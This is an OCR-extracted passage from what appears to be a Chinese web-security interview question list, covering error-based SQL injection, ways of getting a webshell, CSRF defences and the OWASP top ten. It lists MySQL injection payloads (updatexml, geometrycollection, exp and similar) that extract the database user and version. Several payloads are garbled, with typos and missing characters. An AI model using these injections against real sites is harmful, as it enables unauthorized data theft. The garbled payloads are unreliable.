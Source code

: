 2）通过 floor 报错 向下取整 3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)

4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)

b));

5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));

6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));

7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));

8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));

9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));

10）.exp()select from test where id=1 and exp(~(select * from(select user())a));

43、延时注⼊如何来判断？

44、盲注和延时注⼊的共同点？

都是⼀个字符⼀个字符的判断

45、如何拿⼀个⽹站的 webshell？

上传，后台编辑模板，sql 注⼊写⽂件，命令执⾏，代码执⾏， ⼀些已经爆出的 cms 漏洞，⽐如 dedecms 后台可以直接建⽴脚本⽂件，wordpress 上传插件包含脚本⽂件 zip 压缩包等

46、sql 注⼊写⽂件都有哪些函数？

47、如何防⽌ CSRF?

1）验证 referer

2）验证 token

详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd

48、owasp 漏洞都有哪些？

1）SQL 注⼊防护⽅法：

2）失效的身份认证和会话管理 2）失效的身份认证和会话管理

3）跨站脚本攻击 XSS

4）直接引⽤不安全的对象

5）安全配置错误

6）敏感信息泄露

7）缺少功能级的访问控制

8）跨站请求伪造 CSRF

9）使⽤含有已知漏洞的组件

10）未验证的重定向和转发
